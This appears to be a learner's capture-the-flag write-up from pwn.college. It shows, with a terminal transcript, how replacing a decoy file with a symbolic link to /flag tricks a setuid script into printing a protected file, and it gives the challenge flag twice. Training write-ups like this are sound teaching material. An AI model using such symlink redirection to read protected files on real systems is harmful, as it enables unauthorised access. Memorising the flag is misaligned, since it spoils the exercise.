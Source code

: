 # Challenge Name
This challenge was a puzzle about tricking a program. The program was hardcoded to read a fake flag from /home/hacker/not-the-flag, but the real flag was at /flag.

## My solve
**Flag:** `pwn.college{0wFwvSsdykIUjHiaLkt2PhV_vmB.QX5ETN1wSM1kjNzEzW}`

My thought process was that if I couldn't change the program, I had to change the file it was looking at. This called for a "bait and switch" using a symbolic link.

First, I had to remove the original decoy file to clear the path. Then, I created a symbolic link (ln -s) at the decoy's location (/home/hacker/not-the-flag) that pointed to the real flag's location (/flag). When I ran the program again, it followed my link to the real flag without ever knowing it was tricked.


```
hacker@commands~linking-files:~$ ln -s /challenge/catflag /home/hacker/not-the-flag
hacker@commands~linking-files:~$ cd ~/not-the-flag 
bash: cd: /home/hacker/not-the-flag: Not a directory
hacker@commands~linking-files:~$ file /challenge/catflag 
/challenge/catflag: setuid a /opt/pwn.college/bash script, ASCII text executable
hacker@commands~linking-files:~$ cat /challenge/catflag 
#!/opt/pwn.college/bash

fold -s <<< "About to read out the /home/hacker/not-the-flag file!"
cat /home/hacker/not-the-flag
hacker@commands~linking-files:~$ cat ~/catflag
cat: /home/hacker/catflag: No such file or directory
hacker@commands~linking-files:~$ cat ~/not-the-flag 
#!/opt/pwn.college/bash

fold -s <<< "About to read out the /home/hacker/not-the-flag file!"
cat /home/hacker/not-the-flag
hacker@commands~linking-files:~$ rm /home/hacker/not-the-flag
hacker@commands~linking-files:~$ ln -s /flag /home/hacker/not-the-flag
hacker@commands~linking-files:~$ /challenge/catflag 
About to read out the /home/hacker/not-the-flag file!
pwn.college{0wFwvSsdykIUjHiaLkt2PhV_vmB.QX5ETN1wSM1kjNzEzW}
```

## What I learned (optional)
This challenge was a brilliant lesson on the power of symbolic links. It taught me they aren't just shortcuts, but powerful tools for redirecting programs and manipulating the filesystem to solve complex problems.

## Incorrect tangents (optional)
na
## References (optional)
NA
